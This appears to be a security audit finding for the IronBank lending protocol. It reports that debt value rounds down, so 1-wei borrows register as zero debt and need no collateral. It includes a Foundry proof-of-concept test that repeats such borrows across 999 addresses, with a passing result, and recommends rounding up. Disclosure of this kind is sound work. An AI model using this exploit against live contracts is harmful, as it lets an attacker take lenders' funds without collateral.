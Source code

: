 n1punp

high

# Attacker can borrow non-zero token amount without providing any collateral

## Summary
Attacker can borrow non-zero token amount without providing any collateral

## Vulnerability Detail
- `_getAccountLiquidity` rounds debt value down, so the debt value is actually lower than what it should be, leading to a possible borrowing without any collateralization.
- To be more precise, take DAI for example. When oracle reports price < 1e18 (less than $1), then borrowing 1 wei of the token will round the debt value down to 0, allowing the attacker to borrow nonzero amount without actually providing any collateral. This can be repeated as much as one desired.
- Here's the modified `TestBorrow.t.sol` test case:
```solidity
contract BorrowTest is ... {
  ...
  int256 internal constant market2Price = 0.9e8;
  ...

   function testBorrowFree() public {
        uint256 market1SupplyAmount = 100e18;
        uint256 market2BorrowAmount = 500e18;

        vm.startPrank(user2);
        market2.approve(address(ib), market2BorrowAmount);
        ib.supply(user2, user2, address(market2), market2BorrowAmount);
        vm.stopPrank();

        // test borrow from multiple accounts
        for(uint160 i = 1; i < 1000; i++) {
            address addr = address(i);
            vm.prank(addr);
            ib.borrow(addr, addr, address(market2), 1);
        }

        /**
         * collateral value = 0
         * borrowed value = 0 (even though borrowed sth)
         */
        (uint256 collateralValue, uint256 debtValue) = ib.getAccountLiquidity(user1);
        assertEq(collateralValue, 0);
        assertEq(debtValue, 0);
    }

```

This is the result:
```bash
Running 1 test for test/TestBorrow.t.sol:BorrowTest
[PASS] testBorrowFree() (gas: 162751618)
```

## Impact
- Attacker can borrow tokens without providing any collateral, creating an undesirable state.

## Code Snippet
https://github.com/sherlock-audit/2023-05-ironbank/blob/main/ib-v2/src/protocol/pool/IronBank.sol#L1054

## Tool used

Manual Review

## Recommendation
- Round `debtValue` calculation up in favor of the protocol.
